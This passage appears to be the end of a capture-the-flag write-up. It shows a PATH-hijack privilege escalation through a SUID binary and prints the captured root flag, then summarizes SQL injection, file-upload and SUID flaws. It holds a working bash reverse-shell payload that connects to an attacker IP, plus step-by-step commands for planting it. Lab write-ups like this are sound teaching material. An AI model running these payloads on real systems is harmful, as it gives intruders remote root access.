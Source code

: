 **Malicious fdisk Payload:**
```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.134/4444 0>&1"
```

<img width="502" height="181" alt="image" src="https://github.com/user-attachments/assets/8c16145f-d478-4378-b311-e7fe04889d06" />


**Exploitation Steps:**
```bash
# Create payload
echo '#!/bin/bash' > /dev/shm/fdisk
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.134/4444 0>&1"' >> /dev/shm/fdisk
chmod +x /dev/shm/fdisk

# Hijack PATH
export PATH="/dev/shm:$PATH"

# Execute vulnerable binary
/bin/sysinfo
```
### Root Access Achieved

<img width="651" height="701" alt="image" src="https://github.com/user-attachments/assets/c7429087-78fc-44d8-b7d3-1a8005c6d3a8" />

root@ubuntu:~# cat /root/root.txt
cat /root/root.txt
7bcb8be400199d35a96ce942c767a9f1

**Root Flag:**
```bash
cat /root/root.txt
7bcb8be400199d35a96ce942c767a9f1
```

## Vulnerability Analysis

### Critical Security Issues

1. **SQL Injection (Critical)**
   - Unparameterized user input in authentication
   - Complete authentication bypass possible

2. **Insecure File Upload (Critical)**
   - Insufficient file type validation
   - Magic byte and Content-Type manipulation
   - Double extension bypass

3. **Insecure SUID Binary (High)**
   - Relative path usage in privileged binary
   - PATH environment variable hijacking
   - Lack of absolute path specification
